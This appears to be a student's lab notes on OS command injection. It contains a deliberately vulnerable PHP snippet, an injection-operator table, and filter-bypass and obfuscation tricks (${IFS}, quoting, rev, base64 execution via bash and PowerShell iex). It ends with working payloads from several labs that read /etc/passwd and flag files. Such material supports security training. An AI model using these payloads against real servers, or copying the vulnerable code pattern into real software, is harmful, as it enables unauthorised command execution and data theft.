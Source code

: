 # OS Command Injection

### **What is OS Command Injection?**

Run system commands on the server.

- Server-side bug.

### **Types:**

- **Blind** → No output shown.
- **Output-Based** → Output is visible.

### **Example:**

```php
<?php
if (isset($_GET['filename'])) {
    system("touch /tmp/" . $_GET['filename'] . ".pdf");
}
# touch /tmp/test.pdf; whoami
?>

```

---

### **Command Injection Methods**

To inject an additional command to the intended one, we may use any of the following operators:

| **Injection Operator** | **Injection Character** | **URL-Encoded Character** | **Executed Command** |
| --- | --- | --- | --- |
| Semicolon | `;` | `%3b` | Both |
| New Line | `\n` | `%0a` | Both |
| Background | `&` | `%26` | Both (second output generally shown first) |
| Pipe | `|` | `%7c` | Both (only second output is shown) |
| AND | `&&` | `%26%26` | Both (only if first succeeds) |
| OR | `||` | `%7c%7c` | Second (only if first fails) |
| Sub-Shell | ```` | `%60%60` | Both (Linux-only) |
| Sub-Shell | `$()` | `%24%28%29` | Both (Linux-only) |

These work for command injections, no matter the language or framework.

**Bypassing Front-end Validation**

Custom HTTP requests can bypass front-end validations (using Burp Suite).

![image.png](image.png)

### Bypassing Filters

- **New Line (`\n`%0a)**: Works as injection operator.
- **Spaces**: Can bypass using:
    - **Tabs (`%09`)**: Works like a space.
    - **`$IFS`**: Replaces space with `${IFS}`.
    - `${LS_COLORS:10:1}` → ;
    - **Brace Expansion**: Adds spaces automatically (`{ls,-la}`).
- **Bypass Blacklisted Characters**:
    - **Linux**: Use variables like `${PATH}` to get `/` or `;`.
    - **Windows**: Use `%HOMEPATH%` to get `\`.
    - PowerShell → Indexing.
    - **Case Manipulation** ( `whoami` → `WhOamI` ):
        - Linux systems are case-sensitive.
            - `whOamI`  ≠ `whoami`
            - But we have a command to make the word lowercase. (`tr`)
            
            ```bash
            qht@htb[/htb]$ $(tr "[A-Z]" "[a-z]"<<<"WhOaMi")
            # whOamI to whoami
            ```
            
        - Windows, commands for PowerShell and CMD are case-insensitive.
            - `whOamI`  == `whoami`

### Bypassing Blacklist Commands

- **Case Manipulation →** `WhoAmi`
- **Linux Only:** `\` or `$@` → `who$@ami`
- **Linux & Windows:** `'` or `"` → `w'h'o'am'i`
- **Windows Only:** `^` → `who^ami`

### Advanced Command Obfuscation

- **Reversed Commands** ( `imaohw` instead of `whoami` ):
    - Use `echo 'whoami' | rev` to reverse `whoami` to `imaohw`.
    - To run the command, use `$(rev <<< 'imaohw')`.
    
    ![image.png](image%201.png)
    
    - Windows:
        - Use `"whoami"[-1..-20] -join ''` to reverse `whoami` to `imaohw`.
        - To run the command, use `iex "$('imaohw'[-1..-20] -join '')"`.
- **Encoded Commands**
    - base64
        - Use `echo -n 'cat /etc/passwd | grep 33' | base64` to encode the payload.
        - To run the command, use `bash<<<**$**(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)`.
        - Windows:
            - `iex "$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('dwBoAG8AYQBtAGkA')))"`

---

### Lab1

- **`%0a`** → Newline (Enter)
- **`${IFS}`** → Space bypass
- **`${PATH:0:1}`** → `/` bypass

🔹 **Final Payload:** `ls -la /home` → `127.0.0.1%0a{ls,-la}${IFS}${PATH:0:1}home`

### Lab2

- **`%0a`** → Newline (Enter)
- `c’a’t` → Blacklisted Commands bypass
- **`${IFS}`** → Space bypass
- **`${PATH:0:1}`** → `/` bypass
- `{PATH:0:1}home${PATH:0:1}1nj3c70r${PATH:0:1}flag.txt` → /home/1nj3c70r/flag.txt

🔹 **Final Payload:** `127.0.0.1%0ac'a't$IFS${PATH:0:1}home${PATH:0:1}1nj3c70r${PATH:0:1}flag.txt`

### Lab3

- **`%0a`** → Newline (Enter)
- **`${IFS}`** → Space bypass
- `$(tr "[A-Z]" "[a-z]"<<<"WhOaMi")` → `WhOaMi` to `whoami`

🔹 **Final Payload:** `127.0.0.1%0a$(tr${IFS}"[A-Z]"${IFS}"[a-z]"<<<"WhOaMi")`

### Lab4

- **Task**:
    - Using one of the techniques you learned To run the command:
        - `find /usr/share/ | grep root | grep mysql | tail -n 1`
- Encode the command: `ZmluZCAvdXNyL3NoYXJlLyB8IGdyZXAgcm9vdCB8IGdyZXAgbXlzcWwgfCB0YWlsIC1uIDE=`
- **`%0a`** → Newline (Enter)
- **`${IFS}`** → Space bypass
- `bash<<<**$**(base64 -d<<<<ZmluZCAvdXNyL3NoYXJlLyB8IGdyZXAgcm9vdCB8IGdyZXAgbXlzcWwgfCB0YWlsIC1uIDE=)` → Decrypt bas64 and run the command

🔹 **Final Payload:** `127.0.0.1%0abash<<<$(base64${IFS}-d<<<ZmluZCAvdXNyL3NoYXJlLyB8IGdyZXAgcm9vdCB8IGdyZXAgbXlzcWwgfCB0YWlsIC1uIDE=)`

### **Skills Assessment ( Lab5 )**

- Task: Get the content of '`/flag.txt`’
- guest@guest
- `%26` → URL-Encoded of ‘&’
- `c’a’t` → Blacklisted Commands bypass
- **`${IFS}`** → Space bypass
- `${PATH:0:1}flag.txt` → /flag.txt

🔹 **Final Payload:**

`/index.php?to=&from=51459716.txt%26c'a't${IFS}${PATH:0:1}flag.txt&finish=1&move=1`
